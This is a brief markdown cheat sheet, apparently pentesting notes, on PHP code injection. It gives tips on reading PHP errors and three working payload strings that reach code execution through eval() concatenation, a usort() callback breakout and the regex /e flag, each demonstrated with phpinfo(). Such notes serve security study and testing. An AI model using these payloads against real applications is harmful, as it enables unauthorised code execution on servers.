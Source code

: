### When injecting php, warning == find & error == not fine
### As you work through which characters complete the injection string, when you hit a character in the php error that was not in your string - try commenting the end of the string
#### Abuse eval() being used, inject a concatenated command:  
`".phpinfo();"`
#### usort()
`id);}phpinfo();//`
#### /e (evaluate) flag allowed in regex
`name=phpinfo();&pattern=/lamer/e&base=Hello lamer`
